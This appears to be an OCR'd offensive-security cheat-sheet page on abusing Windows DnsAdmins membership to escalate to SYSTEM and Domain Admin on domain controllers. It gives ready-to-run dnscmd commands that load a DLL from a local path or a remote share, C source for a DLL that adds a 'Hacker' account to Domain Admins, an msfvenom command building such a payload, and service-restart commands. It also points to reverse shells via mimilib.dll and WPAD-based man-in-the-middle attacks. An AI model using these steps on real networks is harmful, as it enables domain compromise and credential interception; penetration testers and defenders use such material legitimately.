 ## DnsAdmins

Members of the **DnsAdmins** group can exploit their privileges to load an arbitrary DLL with SYSTEM privileges on a DNS server, often hosted on Domain Controllers. This capability allows for significant exploitation potential.

To list members of the DnsAdmins group, use:

```powershell
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```

### Execute arbitrary DLL

Members can make the DNS server load an arbitrary DLL (either locally or from a remote share) using commands such as:

```powershell
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
An attacker could modify the DLL to add a user to the Domain Admins group or execute other commands with SYSTEM privileges. Example DLL modification and msfvenom usage:
```
```c
// Modify DLL to add user
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
    system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
    system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

```bash
// Generate DLL with msfvenom
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```

Restarting the DNS service (which may require additional permissions) is necessary for the DLL to be loaded:

```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

For more details on this attack vector, refer to ired.team.

#### Mimilib.dll
It's also feasible to use mimilib.dll for command execution, modifying it to execute specific commands or reverse shells. [Check this post](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) for more information.

### WPAD Record for MitM
DnsAdmins can manipulate DNS records to perform Man-in-the-Middle (MitM) attacks by creating a WPAD record after disabling the global query block list. Tools like Responder or Inveigh can be used for spoofing and capturing network traffic.

